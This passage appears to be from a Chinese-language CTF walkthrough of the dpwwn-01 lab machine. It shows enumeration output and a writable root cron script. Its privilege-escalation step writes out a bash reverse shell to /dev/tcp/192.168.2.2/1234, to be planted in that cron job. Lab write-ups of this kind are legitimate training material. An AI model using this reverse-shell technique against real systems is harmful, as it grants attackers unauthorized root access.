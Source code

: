   ```
  2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
      link/ether 00:0c:29:a5:89:fa brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.11/24 brd 192.168.2.255 scope global noprefixroute dynamic ens33
         valid_lft 1486sec preferred_lft 1486sec
      inet6 fe80::20c:29ff:fea5:89fa/64 scope link 
         valid_lft forever preferred_lft forever
  [mistic@dpwwn-01 ~]$ id
  uid=1000(mistic) gid=1000(mistic) groups=1000(mistic) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
  [mistic@dpwwn-01 ~]$ cat /etc/crontab 
  SHELL=/bin/bash
  PATH=/sbin:/bin:/usr/sbin:/usr/bin
  MAILTO=root
  
  # For details see man 4 crontabs
  
  # Example of job definition:
  # .---------------- minute (0 - 59)
  # |  .------------- hour (0 - 23)
  # |  |  .---------- day of month (1 - 31)
  # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
  # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
  # |  |  |  |  |
  # *  *  *  *  * user-name  command to be executed
  
  */3 *  * * *  root  /home/mistic/logrot.sh
  [mistic@dpwwn-01 ~]$ ls -lhai /home/mistic/logrot.sh 
  2536126 -rwx------. 1 mistic mistic 186 Aug  1  2019 /home/mistic/logrot.sh
  [mistic@dpwwn-01 ~]$ sudo -l
  
  We trust you have received the usual lecture from the local System
  Administrator. It usually boils down to these three things:
  
      #1) Respect the privacy of others.
      #2) Think before you type.
      #3) With great power comes great responsibility.
  
  [sudo] password for mistic: 
  Sorry, user mistic may not run sudo on dpwwn-01.
  [mistic@dpwwn-01 ~]$ 
  ```

## 提权:

- 通过查看定时任务发现有一项定时任务,每三分钟执行依次,在执行时拥有root权限,并且该文件的所有者为`mistic`,也就是当前用户,尝试直接在定时任务中写入提权脚本:`/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.2/1234 0>&1'`

### 获得root权限
